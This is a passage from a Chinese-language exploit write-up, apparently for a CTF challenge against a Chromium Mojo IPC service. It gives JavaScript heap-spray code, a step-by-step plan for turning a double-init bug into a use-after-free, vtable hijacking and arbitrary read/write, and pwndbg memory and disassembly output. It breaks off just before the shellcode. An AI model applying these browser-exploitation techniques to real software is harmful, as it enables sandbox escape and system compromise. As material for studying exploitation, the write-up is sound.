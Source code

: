 ```
		}
		await C[idx].push(bss);        // buffer_
		await C[idx].push(0xcf);       // capacity_
		await C[idx].push(0);          // index_
		await C[idx].push(1);       // end_
		await C[idx].push(0x74747474); // int_value_
	}

	print("[+] Heap spray finished");

	for(var idx = 0; idx < list_size; idx++){
		var temp = (await A[idx].getInt()).value;
		if(temp == 0x74747474){

			print_value("[+] Find target: ", idx);
			var target = A[idx];
			await target.push(0x7171717171717171);
			await target.push(0x7272727272727272);

			print(hex((await A[idx].getInt(i)).value));
			target.getTotalSize();
		}
	}
```
可以触发crash，此时vtable已被我们修改。

##### 注意事项

首先来小结一下目前为止的攻击思路：

- 首先我们可以通过double-init漏洞来实现UAF

- 我们创建三个数组，在B中push大量的TStorage，获取对应的TInstance psuh到A中。c数组同样push大量的TInstance，但该操作要在double-init之前进行，目的是为了利用c中TInstance的push、pop来申请之后uaf的内存。
- 对B进行第二次init触发UAF
- 通过指定的push、pop顺序来控制queue的内存。
- 当我们通过queue申请到uaf内存后，我们就可以通过修改vtable来劫持rip，修改queue指针来任意读写。
- 为了实现上述目标，我们需要将vtable和queue修改为bss段。
- 需要注意的是，每次queue扩张和缩小缓冲区都会重新malloc空间，所以我们需要通过偏移来找到vtable的位置，下面以实际内存为例：

我们在content::InnerDbImpl::GetInt()处下断点，rdi为InnerDbImpl结构

pwndbg> x/20gx $rdi
0x33877476f700:	0x0000000000030008	0x0000000000030009
0x33877476f710:	0x000000000003000a	0x000000000003000b
0x33877476f720:	0x000000000003000c	0x000000000003000d
0x33877476f730:	0x000000000003000e	0x000000000003000f
0x33877476f740:	0x0000000000030010   0x0000000000030011

queue的内容在倒数5字节

content::TInstanceImpl::GetTotalSize处下断点，可以看到call虚表+0x10处的函数，所以我们将xchg放到+0x10处。
```
   0x56428ae6ad44    push   rbx
   0x56428ae6ad45    push   rax
   0x56428ae6ad46    mov    rbx, rsi
   0x56428ae6ad49    mov    rdi, qword ptr [rdi + 8]
   0x56428ae6ad4d    mov    rax, qword ptr [rdi]
   0x56428ae6ad50    call   qword ptr [rax + 0x10] => vtable + 0x10
```
布置shellcode：
